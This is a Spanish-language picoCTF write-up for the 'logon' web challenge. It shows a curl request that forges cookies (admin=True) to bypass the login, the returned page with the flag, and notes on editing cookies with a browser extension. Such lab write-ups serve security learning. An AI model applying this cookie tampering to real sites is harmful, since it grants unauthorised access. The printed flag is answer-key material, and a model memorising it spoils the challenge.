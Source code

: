# logon

## Objetivos
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573



## Solución 
```bash
**Flag**: `picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}`

┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: password=admin; username=admin; admin=True "
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]


```

## Notas adicionales 
https://concepto.de/http/

Cookie: Archivo pequeño que envía un servidor web al disco duro del internauta que lo visita con información sobre sus preferencias y pautas de navegación.

descargamos esta extensión https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search

en la pagina clickeamos en el icono de la galleta mordida y ahí nos dirigimos a la cookie admin, cambiamos `admin: False`   por `admin: True' 

Esta infromación se debe al http request, cuando el cliente hace una petición al navegador, y cuando el servidor responde se usa el protocolo `http:response`

En este proceso el servidor utilizo gets y post, para la comunicación. 

https://diego.com.es/headers-del-protocolo-http